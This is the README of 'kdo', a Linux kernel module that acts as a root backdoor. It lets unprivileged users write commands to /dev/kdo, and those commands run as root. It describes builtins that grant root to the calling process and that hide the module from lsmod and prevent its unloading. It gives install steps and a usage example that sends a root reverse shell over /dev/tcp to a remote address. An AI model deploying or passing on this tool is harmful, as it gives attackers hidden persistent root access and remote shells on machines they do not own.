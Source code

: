 kdo
===
Kernel sudo. This is a very simple LKM that creates a character device at `/dev/kdo` to which
commands can be written and executed via `call_usermodehelper`, effectively creating a backdoor for
unprivileged users. Apart from command execution, some useful builtins are implemented as well.


Builtin Commands
----------------
- `kdo-su` \
Grant root privileges to the current process (set all uids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1**. Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2**. Build the module
```bash
cd kdo
make
```

**3**. Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Some options can be set in `src/include/config.h`, such as the name of the created device (`kdo` by
default) and enabling logging (disabled by default).


Usage
-----
Simply write to `/dev/kdo`. Because the module treats anything (apart from builtins) as a last
argument for `/bin/sh -i -c`, redirection and other shell functionalities are supported. For
example, to send a root reverse shell to `192.168.0.2:12345`, run:
```bash
echo 'bash -i &> /dev/tcp/192.168.0.2/12345 0>&1' > /dev/kdo
```
